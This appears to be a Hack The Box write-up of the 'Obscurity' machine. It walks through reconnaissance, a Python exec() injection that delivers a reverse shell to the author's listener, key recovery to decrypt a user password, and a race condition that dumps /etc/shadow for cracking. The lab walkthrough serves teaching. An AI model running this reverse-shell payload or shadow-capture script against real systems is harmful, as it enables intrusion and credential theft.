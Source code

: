 ```yaml
---
layout: default
---
```

## Obscurity
###### Retired [date]
![](https://www.hackthebox.eu/storage/avatars/8c606d79541774c87ab0ee5705821323.png)

##### Intro
Static code analysis! Initial foothold was very easy, user was a little more involved, and root was quick. Full-time developers would absolutely crush this box.

Start off with a quick nmap looking for open ports:
```bash
nmap -sS -n -n obscurity.htb -p 1-65535
```

![](https://yaboygmoney.github.io/htb/images/obscurity/nmap1.png)

nmap showed ssh and http open on 22 and 8080, respectively. For more information, I ran
```bash
nmap -sV -n obscurity.htb -p 22,80,8080 -oN nmap.results
```

![](https://yaboygmoney.github.io/htb/images/obscurity/nmap2.png)

It appears as though the website is being ran on a custom web server, confidently named BadHTTPServer. Open up ```http://obscurity.htb:8080``` in Firefox and land on a web page.

![](https://yaboygmoney.github.io/htb/images/obscurity/webpage.png)

Scrolling down, there's a note to the devs that the current source is located in a development directory.

![](https://yaboygmoney.github.io/htb/images/obscurity/devNote.png)

We can find this quickly with a tool called ```wfuzz```. ```wfuzz``` lets you fuzz particular segments of a URL by replacing what part you would like to fuzz with ```FUZZ```. All it needs is a wordlist and the URL. ```wfuzz``` will print out the result of each request it makes, so it's helpful to find only the responses that come back valid. To do that, just take on ```| grep -v 404``` to ingore the 404 File Not Found results. The whole command looks like
```bash
wfuzz -w /usr/share/wordlists/dirb/common.txt http://10.10.10.168:8080/FUZZ/SuperSecureServer.py | grep -v 404
```

![](https://yaboygmoney.github.io/htb/images/obscurity/wfuzz.png)

wfuzz found the valid URL ```http://obscurity.htb:8080/develop/SuperSecureServer.py```. There, we can see the source code for the server.

![](https://yaboygmoney.github.io/htb/images/obscurity/serverCode.png)

Looking down towards the bottom of the code, there are some comments on a couple of lines of code.
```python
def serveDoc(self, path, docRoot):
        path = urllib.parse.unquote(path)
        try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
            cwd = os.path.dirname(os.path.realpath(__file__))
            docRoot = os.path.join(cwd, docRoot)
            if path == "/":
                path = "/index.html"
```

The [exec](https://pythonprogramming.net/python-exec-tutorial/) builtin allows developers (and hackers) to execute python code from within that input. To abuse this for a shell, a netcat listener is required.
```bash
nc -nvlp 1234
````

Now that the listener is set up to catch the shell, we need to send a get request to
```bash
http://obscurity.htb:8080/';s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.28",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

This web request injects the [python reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) into the ```exec``` function, causing our payload to be executed. Make the request either via curl or through the browser (I went browser) and bam, shell.

![](https://yaboygmoney.github.io/htb/images/obscurity/initialShell.png)

Once we land on the machine as www-data, we need to elevate our privileges to get user. We can see in the user robert's home directory there is a ```SuperSecureCrypt.py``` file, as well as a ```passwordreminder.txt``` file. 

![](https://yaboygmoney.github.io/htb/images/obscurity/robertDir.png)

Looking at the ```SuperSecureCrypt.py```, the program takes an input file to encrypt or decrypt, a string value for the key, and an output file. 

![](https://yaboygmoney.github.io/htb/images/obscurity/parser.png)

We're also given ```check.txt``` file and the output of the encryption in the form of ```out.txt```. 

![](https://yaboygmoney.github.io/htb/images/obscurity/checkOut.png)

The cool part is that we don't need to reverse engineer the encryption process if we have two pieces already. We can just unmath it. To do that, I sent the input file to be decrypted as the output, the key as the contents of check.txt, and set the ```-d``` option. The output will be the key that was used to encyrpt the file.

```bash
python3 SuperSecureCrypt.py -i out.txt -k "$(cat check.txt)" -d -o /tmp/ybgm.txt
```
The result kicked out the key ```alexandrovich``` several times over. Now we can run the same command again but to decrypt the ```passwordreminder.txt``` file and passing the output of our previous command as the key.

![](https://yaboygmoney.github.io/htb/images/obscurity/keyCrack.png)

```bash
python3 SuperSecureCrypt.py -i passwordreminder.txt -k "($cat /tmp/ybgm.txt)" -o /tmp/ybgm2.txt -d
```

The contents of the new file contain robert's password: ```SecThruObsFTW```.

![](https://yaboygmoney.github.io/htb/images/obscurity/password.png)

Now we can SSH in as robert and get out of this web-based shell and more importantly: get user.

```bash
ssh robert@obscurity.htb
cat user.txt
```

![](https://yaboygmoney.github.io/htb/images/obscurity/user.png)

```sudo -l``` shows that we can run the ```/home/robert/BetterSSH/BetterSSH.py``` file as root.

![](https://yaboygmoney.github.io/htb/images/obscurity/sudoL.png)

The file has permissions of ```-rwxr-xr-x 1 root   root```. I can't change it, as root owns the file, so I need a different way than just overwriting or editing the file. I started looking through the code to find a vulnerability, similar to the web server I exploited earlier.

The code segment that we care the most about looks like this:
```python
path = ''.join(random.choices(string.ascii_letters + string.digits, k=8))
session = {"user": "", "authenticated": 0}
try:
    session['user'] = input("Enter username: ")
    passW = input("Enter password: ")

    with open('/etc/shadow', 'r') as f:
        data = f.readlines()
    data = [(p.split(":") if "$" in p else None) for p in data]
    passwords = []
    for x in data:
        if not x == None:
            passwords.append(x)

    passwordFile = '\n'.join(['\n'.join(p) for p in passwords]) 
    with open('/tmp/SSH/'+path, 'w') as f:
        f.write(passwordFile)
    time.sleep(.1)
    salt = ""
    realPass = ""
    for p in passwords:
        if p[0] == session['user']:
            salt, realPass = p[1].split('$')[2:]
            break
```

This code is opening up ```/etc/shadow``` and writing the contents to a password file in ```/tmp/SSH``` with a random filename so later it can compare the results of a provided password to authenticate to this 'better' SSH application. Unfortunately, it's deleting the file as soon as it's finished with it, making it impossible to manually read it during program execution. 
```python
if hash == realPass:
        print("Authed!")
        session['authenticated'] = 1
    else:
        print("Incorrect pass")
        os.remove('/tmp/SSH/'+path)
        sys.exit(0)
    os.remove(os.path.join('/tmp/SSH/',path))
except Exception as e:
    traceback.print_exc()
    sys.exit(0)
```

On first run, the code breaks because ```/tmp/SSH``` doesn't exist, so that needs to be created first.
```bash
mkdir /tmp/SSH
```

To catch the contents of the file that is written before it is deleted, I wrote a script that constantly reads the contents of the all of the files in the ```/tmp/SSH``` directory and write them to a new file that wouldn't be deleted. We need to read every file in this directory regardless of name, because the first line of the ```BetterSSH.py``` file is creating a random filename
```python
path = ''.join(random.choices(string.ascii_letters + string.digits, k=8))
```

The script to catch the temp files looks like:

```bash
#!/bin/bash

while :
do
  cat /tmp/SSH/* >> /tmp/results.txt
done
```
I kicked off that script and then I used another window to SSH back in as robert. Then I ran
```bash
sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```
and logged in as robert and then killed the execution of my other script. Then I opened the ```/tmp/results.txt``` file and had the contents of the shadow file.

![](https://yaboygmoney.github.io/htb/images/obscurity/dumped.png)

From there, it was as easy as running the hash through ```john``` and logging in.

![](https://yaboygmoney.github.io/htb/images/obscurity/crackedRoot.png)

![](https://yaboygmoney.github.io/htb/images/obscurity/root.png)

![](https://giphy.com/gifs/l4JySAWfMaY7w88sU/html5)
